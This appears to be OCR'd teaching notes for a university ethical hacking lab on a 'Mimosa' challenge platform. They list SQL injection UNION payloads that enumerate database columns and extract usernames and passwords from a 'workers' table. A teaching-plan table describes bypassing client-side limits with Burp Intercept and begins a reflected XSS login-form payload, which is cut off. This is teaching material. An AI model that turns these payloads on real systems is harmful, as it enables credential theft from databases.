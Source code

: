 SQLI\
McRonalD:\
\
1\' union select null,table_name,column_name, null from
information_schema.columns limit 100 offset 300; \-- -\
\
\
\
1\' union select null,table_name,column_name, null from
information_schema.columns offset 300; \-- -

1\' union select null,table_name,column_name, null from
information_schema.columns order by name DESC; \-- -\
\
\
1\' union select null,concat(user_name,admin),password, null from
workers; \-- -

## XSS Session 2 Teaching Plan 

Problems:\
MImosa challenges first time in this semester offered to DIT students,
who do not have Ethical Hacking backgroud as DISM students.

+----------------+-------------------+--------------------------------+
| 1.  Q&A        | Nuclear Bomb      | Burp Intercept\--Bypass Client |
|                |                   | Side restriction.\             |
|                |                   | (1) Intercept and modify the   |
|                |                   | code with long string.         |
|                |                   |                                |
|                |                   | \(2\) Forward the request      |
|                |                   |                                |
|                |                   | \(3\) turning off the          |
|                |                   | intercept                      |
|                |                   |                                |
|                |                   | \(4\) back toi mimosa.         |
|                |                   | Observer the secret code on    |
|                |                   | the page                       |
|                |                   |                                |
|                |                   | \(5\) key the answer.\         |
|                |                   | ![](media/image20.png          |
|                |                   | ){width="2.0208333333333335in" |
|                |                   | height="1.2638888888888888in"} |
+----------------+-------------------+--------------------------------+
| 2.  Reflected  | Find the          | \<form\> Username\<input       |
|     XSS        | injection point\  | type=text\> Password\<input    |
|                | Construct XSS     | type=password\> \<button       |
|                | payload for login | onclick=\"alert(\'Login in     |